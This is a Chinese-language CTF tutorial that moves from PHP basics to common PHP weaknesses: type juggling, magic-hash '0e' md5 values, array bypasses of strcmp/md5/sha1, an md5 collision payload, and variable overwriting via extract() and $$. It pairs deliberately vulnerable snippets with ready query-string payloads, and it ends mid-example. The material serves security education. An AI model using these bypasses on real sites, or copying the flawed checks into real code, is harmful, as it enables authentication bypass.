








# PHP 基础

在指导Web方向入门时，我们常说要有一点PHP基础，很对新生会对此疑惑 —— 什么程度的基础。
因为CTF或者说安全并不是要求你做开发工作，而是审计工作，你不需要完全学习一门语言之后再去处理工作，这没有太大意义。

本节内容将介绍在CTF比赛中涉及的 PHP 基础语法内容，当然因为篇幅原因，不会太过详细，读者需要结合内容自行在做题的基础上扩展。

### PHP基础格式

PHP 脚本以 **<?php** 开始，以 **?>** 结束：

```php
<?php
    //执行的相关PHP代码
?>
```

### 变量 赋值 以及 运算

PHP 中，变量以 **$** 符号开始，后面跟着变量的名称，并且变量名是区分大小写的（\$y 和 $Y 是两个不同的变量）

要注意的是 PHP 是一门弱类型语言，我们不必向 PHP 声明该变量的数据类型。

```php
<?php
$x_int = 1024;
$y_int = 0xFFF;
$float_num = 1.5;
$txt_string = "Hello CTF!";
$stat_Boolean = true;
?>
```

**赋值 以及 复合赋值**

| 运算符 | 等同于    | 描述                           |
| :----- | :-------- | :----------------------------- |
| x = y  | x = y     | 左操作数被设置为右侧表达式的值 |
| x ?= y | x = x ? y | 支持 `+=`, `-=`, `*=`, `/=`, `%=`,`.=`  |

**逻辑运算**

| 运算符 | 名称             | 描述                                                         |
| :----- | :--------------- | :----------------------------------------------------------- |
| x `and` / `&&` y  | 与   | 如果 x 和 y 都为 true，则返回 true           |
| x `or` / `||`  y   | 或   | 如果 x 和 y 至少有一个为 true，则返回 true   |
| x xor y  | 异或 | 如果 x 和 y 有且仅有一个为 true，则返回 true |
| ! x      | 非   | 如果 x 不为 true，则返回 true                |

### 类型比较

- 松散比较：使用两个等号 **==** 比较，只比较值，不比较类型。
- 严格比较：用三个等号 **===** 比较，除了比较值，也比较类型。

```php
0 == false: bool(true)
0 === false: bool(false)
```

### 输出

- `echo` - 可以输出一个或多个字符串
- `print` - 只允许输出一个字符串，返回值总为 1

```php
<?php
echo "Hello CTF 很有趣！";
?>
```

### 数组

**`array()` 函数用于创建数组**

```php
<?php
$cars=array("Hello","CTF");
echo "I like " . $cars[0] . " " . $cars[1] . ".";
?>
```

**使用 `[]` 定义数组**

```php
$z = ['H','e','l', 'l', 'o'];
$z[0] = 'H';
$z[1] = 'r';
$z[2] = 'l';
$z[3] = 'l';
$z[4] = 'o';
```

### 魔术常量

行如 **`__FILE__`** 这样的 `__XXX__`  预定义常量，被称为魔术常量。

```php
__FILE__ //返回文件的完整路径和文件名
    
highlight_file(__FILE__); //代码高亮的显示当前文件内容
```

### 表单数据

**$_GET** —— 接受 GET 请求传递的参数。

**示例**：`example.com/index.php?book=HELLOCTF`，你可以使用 `$_GET['book']` 来获取相应的值。

**$_POST** —— 接受 POST 请求传递的参数。

**示例**：对 `example.com/index.php` 进行 POST 传参，参数名为 `book` 内容为 `HelloCTF`，你可以使用 `$_POST['book']` 来获取相应的值。

**$_REQUEST** —— 接受 GET 和 POST 以及 Cookie 请求传递的参数。

**示例**：

- 如果你通过 URL 传递了一个参数 `example.com/index.php?key=value_from_get`，你可以通过 `$_REQUEST['key']` 获取这个值。
- 如果你通过 POST 方法提交了一个表单，其中有一个名为 `key` 的字段且其值为 `value_from_post`，你也可以通过 `$_REQUEST['key']` 获取这个值。
- 同时，如果你设置了一个名为 `key` 的 cookie，其值为 `value_from_cookie`，你还是可以使用 `$_REQUEST['key']` 来获取这个值。

### 内建函数

**文件操作函数**：

- `include()`: 导入并执行指定的 PHP 文件。例如：`include('config.php');` 会导入并执行 `config.php` 文件中的代码。

- `require()`: 类似于 `include()`，但如果文件不存在，则会产生致命错误。

- `include_once()`, `require_once()`: 与 `include` 和 `require` 类似，但只导入文件一次。

- `fopen()`: 打开一个文件或 URL。例如：`$file = fopen("test.txt", "r");` 会以只读模式打开 `test.txt`。

- `file_get_contents()`: 读取文件的全部内容到一个字符串。例如：`$content = file_get_contents("test.txt");`

- `file_put_contents()`: 将一个字符串写入文件。例如：`file_put_contents("test.txt", "Hello World!");`

**代码执行函数**：

- `eval()`: 执行字符串中的 PHP 代码。例如：`eval('$x = 5;');` 会设置变量 `$x` 的值为 5。

- `assert()`: 用于调试，检查一个条件是否为 true。

- `system()`, `shell_exec()`, `exec()`, `passthru()`: 执行外部程序或系统命令。例如：`system("ls");` 会执行 `ls` 命令并显示输出。

**反序列化函数**：

- `unserialize()`: 将一个已序列化的字符串转换回 PHP 的值。例如：`$array = unserialize($serializedStr);` 可以将一个序列化的数组字符串转换为数组。

**数据库操作函数**：

- `mysql_query()`, `mysqli_query()`: 发送一个 MySQL 查询。例如：`$result = mysql_query("SELECT * FROM users");`

**其他函数**：

- `preg_replace()`: 执行正则表达式搜索和替换。例如：`$newStr = preg_replace("/apple/i", "orange", $str);` 会将 `$str` 中的 "apple" 替换为 "orange"。

- `create_function()`: 创建匿名的 lambda 函数。例如：`$func = create_function('$x', 'return $x + 1;');`

## PHP 函数安全

这里仅针对一些 CTF 常见的函数攻击方法进行分析，如有遗漏，欢迎补充。握手手 🤝

### 常见绕过

#### is_numeric

作用：检测变量是否是数字或数字字符串。https://www.php.net/manual/en/function.is-numeric.php



例题

```php
<?php
$a = $_GET['a'];
if (is_numeric($a)) {
    exit();
} elseif ($a == 404) {
    echo "flag";
}
```

想要绕过可以在数字前面或者后面加上`%0a %0b %0c %0d %09`

### PHP 精度

首先简单介绍下 PHP 所的双精度格式，IEEE 754 https://zh.wikipedia.org/wiki/IEEE_754

IEEE 754 表示方法：

IEEE754 一般分为半精度浮点数、单精度浮点数、**双精度浮点数**

这数为例，在这个长度下会使用 **1位符号**，**11 位指数**，**52 位尾数**。

- 符号：0 为正，1 为负
- 指数：数据如果以 2 为底的幂，则采用偏移表示法
- 尾数：小数点后的数字

**举几个例子：**

IEEE 754 标准在线转换网站：https://tooltt.com/floatconverter/

**0.57** 采用 IEEE 754 标准转换成二进制后如下

```
0 01111111110 0010001111010111000010100011110101110000101000111101
```

将 52 位尾数转换成二进制后：`0.56999999999999995`

注：转换时 52 位尾数前面要加个 1，以表示该二进制数为负数，然后在前面加上 **0.** 以表示该数为浮点数

注：基本上所有语言双精度格式都采用 IEEE 754，可以自己转转看，https://www.sojson.com/hexconvert.html

**0.58** 采用 IEEE 754 标准转换成二进制后如下

```
0 01111111110 0010100011110101110000101000111101011100001010001111
```

转成二进制后：`0.57999999999999996`

为此，如果将 0.57*100 取整（intval），所返回的会是 0.56，0.58*100 则为 0.57

特别的，如果一个数为 0.5899999999999999999，将这个数打印出来后会是 0.59，而 0.59，在十进制中是这样的，但如果在浮点上，所表现的数会为 0.58999999999999997，实验方法如下

```
echo serialize((float)0.59) . '<br>';
#返回：d:0.58999999999999997;
```

综上所述，永远不要以为程序会把浮点数的结果精确到最后一位，因为你永远不知道他里边是怎么运算的。

如果要避免上述的问题，解决方法如下

```
intval(0.58 * 1000 / 10) 或 intval(0.57 * 1000 / 10)
```

理论：

而正好，在 PHP 处理浮点数的运算中，采用的就是 IEEE 754 双精度格式，如果对一个数进行取整，所产生的最大相对误差为 **1.11e-16**，通过上面的例子，我们可以再举几个小实例

```
echo 1989.9 . '<br>';
#返回：1989.9
echo 1989.99999999999999 . '<br>';
#返回：1990
echo 1.99999999999999 . '<br>'; # (小数为15)
#返回：2
echo 0.5799999999999999 . '<br>';
#返回：0.58
echo 1.9999999999999 . '<br>'; # (小数为13)
#返回：1.9999999999999
echo 1.0000000000001 . '<br>'; # (小数为13)
#返回：1.0000000000001
echo 1.00000000000001 . '<br>'; # (小数为15)
#返回：1
```

如果要一一解释太麻烦了。。这里就通俗点讲，上面的 1989.9 返回 1989.9，而 1989.99999…会返回 1990，这是因为在二进制里边，99999 转成二进制后会出现上述 0.59 的问题，所以 1989.99999…会返回 1990。

理论就大致这些，这里写个 CTF 例子来参考下。

```
$flag = 'flag{test}';
extract($_GET);
if (strstr($num,'1')) {
    die('Out!');
}
if($num==1){
    var_dump($flag);
}
```

**注：** strstr(v1, v2)，该函数用于判断 v2 是否为 v1 的字串，如果是则该函数返回 v1 字符串从 v2 第一次出现的位置开始到 v1 结尾的字符串；否则，返回 NULL。

这个例子大致一个情况就是，如果 num=1 则输出 flag，这里由于使用了 strstr 函数，如果我们输入 1 的话自然会返回 Out!，为此可以使用精度漏洞绕过去

Payload: **?num=0.999999999999999999999999**

### 比较和类型转换漏洞

先对 PHP 比较运算进行一个简单概括

PHP 包含 **松散** 和 **严格** 比较

**松散比较**（`==`）比较值，但不比较类型，**严格比较**（`===`）即比较值也比较类型

```
echo (123 == "123")?1:0;
# 返回：1
echo (123 === "123")?1:0;
# 返回：0

$id = intval("12312a");
var_dump($id);
输出：12312
```

**注 4：** 字符串转成数字后会是 0

```
var_dump(0 == "a");
# 返回： 1（0 & 0 自然为1）
```

在 PHP 中类型转换有一定的缺陷，如果一个 **字符串** 要转成数值类型，首先对字符串进行一个判断，如果字符串包含 **e** 、**.** 、**E** 则会作为 **float** 来取值，否则则为  **int** ，上述例子由于 a 没有包含任何东西，所以被当作 **int** 来处理了，这里要说明的是，如果字符串起始部分为 **数值** ，则采用 **起始的数值** ，否则一律为 **0**

具体查阅：https://www.php.net/manual/zh/language.types.numeric-strings.php

```
var_dump(111 == "111a");
# 返回： true
var_dump(111 == "1a");
# 返回： false
var_dump(100 == "1e2"); #采用科学计数法
# 返回：true
var_dump(23333 == "0x5b25"); #采用十六进制
# 返回：true
```

在 **PHP8.0.0** 之前（最新版本已修复），如果 **字符串** 与 **数字** 或者 **数字字符串** 进行比较，则会先进行 **类型转换** 再进行比较。



**攻防 PHP2**

```
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

把 admin 给 URL 编码一下即可

```
admin->%61%64%6d%69%6e
```

但是发现传进去的值会直接给 urldecode，为此在把编码后的 admin 再编码一遍

```
%61%64%6d%69%6e->%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

传参拿 Flag

### PHP 弱类型比较

PHP 是一门弱类型语言，这里是他的类型比较表 https://www.php.net/manual/zh/types.comparisons.php#types.comparisions-loose

#### strcmp()

> https://www.php.net/manual/zh/function.strcmp.php

描述：**strcmp(str1, str2)**

如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。

 **注 5：** 在 php5.0 以前，strcmp 返回的是 str2 第一位字母转成 ascii 后减去 str1 第一位字母。

```
var_dump(strcmp("1","2"));
# 返回：-1
var_dump(strcmp("1","1"));
# 返回：0
var_dump(strcmp("1","0"));
# 返回：1
```

当 strcmp 比较出错后，会返回 null，null 则为 0，举个例子

```
$flag = 'flag{123}';
if (strcmp($flag, $_GET['str']) == 0) {
    echo $flag;
}else{
    echo "Out!";
}
```

为了使 strcmp 比较出错，可以传入一个数组

Payload: **?str[]**

#### is_numeric()

**is_numeric()** 用于检测数值是否为数值，如果遇到这个函数，可以用上述转换类型的特性（版本小于 8.0.0），如果传入的是字符串，会先将字符串转换成数值

```
$flag = 'flag{111}';
$id = $_GET['id'];
if(is_numeric($id) > 0){
    echo 'Out!';
}else{
    if ($id > 233) {
        echo $flag;
    }
}
```

Payload: **?id=2333,**

Payload: **?id=2333%00**

Payload: **?id=2333A**

……

#### is_switch()

这个方法和类型转换一样大同小异，case 会自动将字符转换成数值。这里来个例子就知道了

```
$a = "233a"; # 注意这里
$flag = "flag{Give you FLAG}";
switch ($a) {
    case 1:
        echo "No Flag";
        break;
    case 2:
        echo "No Flag";
        break;
    case 233:
        echo $flag;
        break;
    default:
        $a = 233;
        echo "Haha...";
}
```

输出：flag{Give you FLAG}

#### md5()

描述：**md5($字符串, $var2)**

计算 **字符串** 的 MD5 散列值，如果 **var2** 为真将返回 16 字符长度的原始二进制格式



##### ==（0e 比较）

md5 在处理哈希字符串的时候，如果 md5 编码后的哈希值时 **0e** （科学计数法）开头的，都一律解释为 0，所以当两个不同的值经过哈希编码后他们的值都是以 **0e** 开头的，则每个值都是 **0**

```
var_dump(0e912 == 0e112?1:0);
输出：1
echo 8e5 . "<br>"; // 10^5*8=800000
echo 1e4 . "<br>"; // 10^4*1=10000
echo 0e3 . "<br>"; // 10^3*0=0
```

###### 常见 md5 以 0e 开头的值

**数值型**

```
240610708 0e462097431906509019562988736854 返回：0
314282422 0e990995504821699494520356953734 返回：0
571579406 0e972379832854295224118025748221 返回：0
903251147 0e174510503823932942361353209384 返回：0
$md5          md5($md5)
0e00275209979 0e551387587965716321018342879905
0e00506035745 0e224441551631909369101555335043
0e00540451811 0e057099852684304412663796608095
0e00678205148 0e934049274119262631743072394111
0e00741250258 0e899567782965109269932883593603
0e00928251504 0e148856674729228041723861799600
0e01350016114 0e769018222125751782256460324867
0e01352028862 0e388419153010508575572061606161
0e01392313004 0e793314107039222217518920037885
0e01875552079 0e780449305367629893512581736357
0e01975903983 0e317084484960342086618161584202
0e02042356163 0e335912055437180460060141819624
0e02218562930 0e151492820470888772364059321579
0e02451355147 0e866503534356013079241759641492
0e02739970294 0e894318228115677783240047043017
0e02760920150 0e413159393756646578537635311046
0e02784726287 0e433955189140949269100965859496
0e03298616350 0e851613188370453906408258609284
0e03393034171 0e077847024281996293485700020358
```

**字母型**

```
QLTHNDT 0e405967825401955372549139051580 返回：0
QNKCDZO 0e830400451993494058024219903391 返回：0
EEIZDOI 0e782601363539291779881938479162 返回：0
TUFEPMC 0e839407194569345277863905212547 返回：0
```

举个例子

```
$flag = "flag{THIS_IS_REAL_FLAG}";
$v1 = $_GET['gat'];
$v2 = $_GET['tag'];
if ($v1 != $v2 && md5($v1) == md5($v2)) {
    echo $flag;
}else{
    echo "Out!";
}
```

代码简单说明一下，v1 和 v2 是两个参数变量，首先 v1 不等于 v2，意思就是两个值必须不相同，其次 md5 后的 v1 和 md5 后的 v2 必须相同，这时候就可以使用上述 **0e** 方法构造 Payload，只需找出哪个值经过 md5 编码后以 **0e** 开头即可

Payload: **?gat=240610708&tag=314282422**



##### ===（数组比较）

如果遇到下列程序

```
$flag = "flag{THIS_IS_REAL_FLAG}";
$str1 = $_GET['gat'];
$str2 = $_GET['tag'];
if (md5($str1) === md5($str2)) {
    echo $flag;
}
```

用上述 0e 方法自然是不可行的（注意：`===`），这时候就得使用数组来绕过了，如果传入一个数组的值，会报出错误（md5 只能使用字符串），报错后就相当于绕过`===`这个条件了

Payload: **?gat[]=&tag[]=**


**注 6：** 在 PHP 8.0.0 时，该方法行不通了


###### md5 碰撞

如果遇到不能传入数组，只能传入字符串的时候，如下例

```
$flag = "flag{THIS_IS_REAL_FLAG}";
$str1 = $_GET["gat"];
$str2 = $_GET["tag"];
if((string)$str1 !== (string)$str2 && md5($str1)===md5($str2)){
    echo "flag{THIS_IS_REAL_FLAG}";
}else{
    echo "Out!";
}
```

这时候就得需要 md5 碰撞，上面判断条件的意思是，str1 和 str2 内容必须不同，但是 md5 必须相同。

**说人话就是 md5 一样，但内容完全不一样的字符串**

关于 md5 碰撞可以翻阅这篇论文：https://www.iacr.org/cryptodb/archive/2005/EUROCRYPT/2868/2868.pdf

这里我们先用工具跑一下，使用 FastColl 对 md5 进行一个简单碰撞

首先创建一个文件 1.txt，在里边输入任意值，其次使用命令

```
fastcoll -p 1.txt -o 2.txt 3.txt
```

分别生成 2.txt 和 3.txt，这时候打开会发现这些是二进制字符串（？）

接着对这两个文件内容分别进行 **md5 编码** 和 url 编码，会发现 md5 后的编码是一样的


使用工具校验


接着构造 Payload 即可

```
?gat=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1Bih%D3%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8U%7C%3Dm%89%DB%11%B7%BFkr%84.%01h%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%96F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%94%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9d%84%B2%F1%03&tag=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1BihS%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8%D5%7C%3Dm%89%DB%11%B7%BFkr%84.%01%E8%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%16F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%14%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9%E4%84%B2%F1%03
```



#### sha1()

sha1 的参数不能为数组，传入数组会返回 NULL，所以先传一个数组使得 sha1 函数报错，接着再左右两边传入不一样的内容，两边条件自然=1，相等即可绕过

```
$flag = "flag{Chain!}";
$get = $_GET['get'];
$teg = $_GET['teg'];
if ($get != $teg && sha1($get) === sha1($teg)) {
#if ($get != $teg && sha1($get) == sha1($teg)) {
    echo $flag;
}else{
    echo 'Out!';
}
```

Payload: **?get[]=&teg[]=1**

### 变量覆盖漏洞

变量如果未被初始化，且能够被用户所控制，那么很可能会导致安全问题，前提是环境开启了

```php
register_globals=ON
```

如果传入一个参数 **?id=1**，并且这个参数把原有的变量值给覆盖掉了则叫做 **变量覆盖漏洞**，举个例子

```php
<?php
$flag = "flag{Chain!}";
$a = "A";
$b = "B";
echo "$a" . "\n";
echo "$b" . "\n";
$a = $_GET['get'];  # $a 变量被我们传入的get给覆盖掉了
echo $a . "\n";
echo $b . "\n";
```


上面程序返回如下

```
a:A
b:B
a:
b:B
```

传入参数：**?get=Genshin**，返回

```
a:A
b:B
a:Genshin
b:B
```

可以发现，**$a** 变量被我们传进去的 **get 参数** 给覆盖了

漏洞产生原因

- register_globals（全局变量）为 On
- `$$` 使用不恰当
- extract() 函数使用不当
- parse_str() 使用不当
- import_request_variables() 使用不当

#### $$

`$$`（可变变量 - https://www.php.net/manual/zh/language.variables.variable.php）
简单概括就是一个可变变量获得了一个普通变量的值并作为这个可变变量的变量名

- $ - 普通变量，$a = 1
- `$$` - 引用变量，普通变量的值，`$$b = "B"`

```
$a = "A";
$$a = "B";
echo $a . "<br>";
echo $$a . "<br>";
echo $Ice . "<br>";
```

返回

```
A
B
B
```

如果使用 foreach 来遍历数组的值，举个例子

```
$a = "A"; #
$b = "B"; # 注意这俩
echo $a . "<br>";
echo $b . "<br>";
foreach ($_GET as $key => $value) {
    $$key = $value;
}
echo $a . "<br>";
echo $b . "<br>";
echo $key . "<br>";
echo $$key . "<br>";
```

上面这个例子，直接运行返回如下

```
A
B
A
B
```

接着我们传入几个数据，如

```
?a=I'm A&b=I'm B
```

最终返回如下

```
A
B
I'm A
I'm B
b
I'm B
```

会发现`$a`和`$b`值被修改了，这是因为我们使用了 foreach 来遍历数组的值，上面有一句 `$$key = $value;`这句的意思是将获取到的数组键名（`$_GET`）作为变量，那么数组中的键值将作为变量的值。

上面传进去的参数可以看作，只需把 `$_GET` 替换成 `$array` 即可

```
$array = array(
    'a'=>'I\'m A',
    'b'=>'I\'m B'
);
```

来道题

```
$flag = "flag{Chain!}";
foreach ($_GET as $key => $value) {
    $$key = $value;
}
if ($id === "admin") {
    echo $flag;
}else{
    echo "Out!";
}
```

Payload: **?id=admin**

#### extract()

> https://www.php.net/extract

描述：extract(**array**,**flags**,**prefix**)

- **array**：数组
- **flags**：
- **EXTR_OVERWRITE** - 如果有冲突，覆盖已有的变量。**（默认）**
  **EXTR_SKIP** - 如果有冲突，不覆盖已有的变量。
  **EXTR_PREFIX_SAME** - 如果有冲突，在变量名前加上前缀 prefix。**（需要第 prefix 参数）**
- …
- **prefix**：该参数规定了前缀。前缀和数组键名之间会自动加上一个下划线。
  extract 用来将变量从数组中导入到当前的符号表中，并返回成功导入到符号表中的变量数目

```
$a = "Source";
$array = array(
    "a"=>"JP",
    "b"=>"RU",
    "c"=>"US",
);
extract($array);
echo "\$a = " . $a . "<br>"; # 注意这里，a原本是有内容的
echo "\$b = " . $b . "<br>";
echo "\$c = " . $c . "<br>";
```

返回

```
$a = JP
$b = RU
$c = US
```

接着将第二个参数改为 **EXTR_PREFIX_SAME**，并将 **prefix** 设置为 **fix**

```
$a = "Source";
$c = "Source1";
$array = array(
    "a"=>"JP",
    "b"=>"RU",
    "c"=>"US"
);
extract($array, EXTR_PREFIX_SAME, "fix");
echo "\$a = " . $a . "<br>";
echo "\$b = " . $b . "<br>";
echo "\$c = " . $c . "<br>";
echo "\$fix_a = " . $fix_a . "<br>";
echo "\$fix_b = " . $fix_b . "<br>";
echo "\$fix_c = " . $fix_c . "<br>";
```

返回

```
$a = Source
$b = RU
$c = Source1
$fix_a = JP
$fix_b =
$fix_c = US
```

如果 extract 第二参数未设置，并且用户输入了带值的参数，例子

```
extract($_GET);
echo $v1 . "<br>";
echo $v2 . "<br>";
```

输入 **?v1=Hello&v2=World** 返回

```
Hello
World
```

来道例题

```
extract($_GET);
if ($pass == "admin") {
    echo $flag;
}
```

Payload: **?pass=admin**
漏洞应用：ThinkPHP 5.x 版本，详见：[ThinkPHP 漏洞分析总结（主要 RCE 和文件 | Hyasin's blog](https://hyasin.github.io/2020/09/08/ThinkPHP漏洞分析/)

#### parse_str()

> https://www.php.net/manual/zh/function.parse-str.php

描述：parse_str(**str**)用于将字符串解析成多个变量，没有返回值\

```
parse_str("username=A&password=123456");
echo "Username: " . $username . "<br>";
echo "Password: " . $password;
```

输出

```
Username: A
Password: 123456
```

原本这个函数有 array 参数的，但在 7.2 后废除了，array 变量会以数组元素的形式存入到这个数组，作为替代

来到例题

```
$UIUCTF = "UIUCTF Hacker.";
$id = $_GET['id'];
@parse_str($id);
if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
    echo $flag;
}else{
